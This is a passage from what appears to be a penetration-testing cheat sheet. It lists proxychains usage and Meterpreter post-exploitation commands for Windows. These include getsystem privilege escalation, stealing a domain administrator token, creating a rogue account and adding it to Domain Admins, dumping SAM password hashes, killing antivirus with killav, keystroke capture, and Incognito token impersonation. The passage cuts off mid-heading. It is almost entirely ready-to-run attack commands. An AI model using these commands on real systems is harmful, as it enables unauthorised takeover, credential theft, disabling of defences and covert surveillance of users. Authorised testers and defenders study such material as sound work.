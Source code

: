 3. Now you can use `Proxychains` without any other configurations because we are using it's default port.
```bash
proxychains <Command>
#Example
proxychains nmap -A -Pn -T4 127.0.0.1
```
# Post-exploitation
## Windows-based systems
**Elevate your permissions**
```bash
use priv
getsystem
```
**Steal a domain administrator token from a given process ID, add a
domain account, and then add it to the Domain Admins group:**
```powershell
#View process
ps
#Steal the token 
steal_token <PID>
#Get a shell on the system
shell
#Create user
net user abuqasem Pass123 /ADD /DOMAIN
#ADd user to the group
net group "Domain Admins" abuqasem /ADD /DOMAIN
```
**Dump password hashes from the SAM database:**
```bash
use priv
getsystem
hashdump
```
> NOTE:
On Win2k8 you may need to migrate to a process that is running as SYSTEM if getsystem and hashdump throw exceptions.

**Automigrate to a separate process:**
```cmd
run migrate
```
**Kill antivirus processes running on the target via the killav Meterpreter script:**
```txt
run killav
```
**Capture keystrokes on target machines from within a particular process:**
```txt
ps
migrate 1436
keyscan_start
keyscan_dump
keyscan_stop
```
**Use Incognito to impersonate an administrator:**
```txt
use incognito
list_tokens -u
use priv
getsystem
list_tokens -u
impersonate_token IHAZSECURITY\\Administrator
```
**what protection mechanisms are in place on the compromised